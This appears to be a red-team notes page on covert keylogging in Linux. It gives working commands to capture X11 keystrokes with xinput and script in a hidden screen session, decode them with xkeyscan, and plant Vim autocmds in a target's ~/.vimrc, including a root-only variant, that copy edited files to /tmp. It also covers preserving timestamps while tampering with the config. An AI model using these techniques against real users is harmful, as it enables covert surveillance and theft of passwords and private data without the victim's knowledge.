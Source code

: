 # Keylogging

## Script

- Run a multiplexer terminal program to leave it in the background.

```
$ screen -S keylogger

$ export DISPLAY=:0.0

$ export | grep -i display
```

- Exporting the keyboard mapping

```
$ xmodmap -pke > xmodmap-pke.txt

$ head -n20 xmodmap-pke.txt
```

- Find the virtual core keyboard to record keystrokes then detach the session to leave it in the background with (`CTRL+D`).

```
$ xinput list

$ script -c "xinput test <X_id>" -a xinput-keylogger.log
```

- While it's still running in the background use `xkeyscan` ( a python script is included in the references below) to convert the decimal base 10 values to printable ASCII characters.

`$ python xkeyscan.py xinput-keylogger.log`

## Vim

TODO: Demonstrate using vim as a keylogger

### Common File Destinations

```
$HOME/.vimrc
$HOME/.vim/plugin/settings.vim
```

### Vim scripts for logging keystrokes

- Normal user

```
:autocmd BufWritePost * :silent :w! >> /tmp/vim-keystrokes.txt
```

- Under elevated user context when the user is running as `sudo`.

```
:if $USER == "root"
:autocmd BufWritePost * :silent :w! >> /tmp/vim-keystrokes.txt
:endif
```

### Insert keylogging configuration

- Gather timestamps and backup the config resource file. Also try to improvise by instead of getting rid of the rest of the vim config content's. Modify it to ensure it contains no syntax errors. Then wait for the target when he interacts with VIM.

```
$ stat ~/.vimrc
$ cp ~/.vimrc /tmp/.vimrc.bak
$ echo "" > ~/.vimrc
$ cat ~/.vimrc
:autocmd BufWritePost * :silent :w! >> /tmp/vim-keystrokes.txt
```

---
## References

- [[Screen]]

- [RedHat: Record your terminal with script and scriptreplay](https://www.redhat.com/sysadmin/record-terminal-script-scriptreplay )

- [xkeyscan](https://github.com/porterhau5/xkeyscan)

- [Natively Keylogging NIX Systems](http://legacy.popped.io/2016/06/natively-keylogging-nix-systems.html)

- [Using xkeyscan to Parse an X-Based Linux Keylogger](https://porterhau5.com/blog/xkeyscan-parse-linux-keylogger/)